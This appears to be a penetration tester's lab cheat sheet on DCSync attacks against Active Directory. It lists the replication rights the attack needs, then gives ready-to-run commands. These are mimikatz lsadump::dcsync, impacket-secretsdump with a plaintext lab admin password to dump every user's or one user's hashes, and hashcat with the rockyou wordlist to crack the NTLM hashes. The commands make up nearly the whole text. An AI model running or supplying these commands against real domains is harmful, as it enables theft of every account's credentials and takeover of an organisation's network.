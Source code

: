>[!NOTE] For DC Sync you need to have: 
Replicating Directory Changes  
Replicating Directory Changes all  
Replicating Directory Changes in Filtered Set 
Domain Admins, Enterprise Admins, and Administrators groups have this by default  
  
>[!NOTE] On Target  

```
.\mimikatz.exe  
lsadump::dcsync /user:corp\dave  
```

>[!NOTE] Local 
# All users  
```
impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.186.70  
```
  
# One user  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.186.70  
```

# Cracking Hash
```
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```